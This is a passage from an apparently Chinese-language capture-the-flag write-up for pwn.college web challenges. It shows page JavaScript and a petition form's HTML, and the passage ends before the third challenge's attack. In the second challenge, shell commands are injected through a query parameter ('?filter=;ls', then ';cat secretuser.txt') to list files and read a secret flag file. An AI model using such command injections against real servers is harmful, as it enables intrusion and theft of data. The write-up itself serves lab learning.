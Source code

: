 ```html
    /* alert(myurl); */
    http_request.open("GET", myurl, true);
    http_request.send(null);

    /* setTimeout("getusers()", 5000);  */
  }  

  function stateManager() {
    if (http_request.readyState == 4) {
      if (http_request.status == 200) {
        updatepage(http_request.responseText); 
      } else {
        alert('There was a problem with the request.');
      }
    }
  }

  function updatepage(str) {
    document.getElementById("userlist").innerHTML = str;
  } 

  setTimeout("getusers()", 5000); 
</script>
```
3. 等待一下會自動發送, `GET /cgi-bin/users.php`
4. 攔截請求, 在`users.php`後面加上查詢參數`?filter=;ls`
5. 回應`<pre>secretuser.txt\nusers.php</pre>`
6. 頁面的`<div id="userlist">`的文字被改成`<pre>secretuser.txt\nusers.php</pre>`
7. 攔截請求, 在`users.php`後面加上查詢參數`?filter=;cat+secretuser.txt`
8. 回應`<pre>pwn.college{...}</pre>`


# 3
1. 進網站, Response部分程式碼
```html
<form action="/cgi-bin/petition.py" method="get">
<table>
    <tbody>
        <tr>
            <td>First:</td>
            <td><input type="text" name="first"></td>
        </tr>
        <tr>
            <td>Last:</td>
            <td><input type="text" name="last"></td>
        </tr>
        <tr>
            <td>Email:</td>
            <td><input type="text" name="email"></td>
        </tr>
        <tr>
            <td>Comment:</td>
            <td>
                <textarea rows="2" columns="20" name="comment">
                    Remove cp from UNIX now!
                </textarea>
            </td>
        </tr>
        <tr>
            <td>ID:</td>
            <td><input type="text" name="id"></td>
        </tr>
```
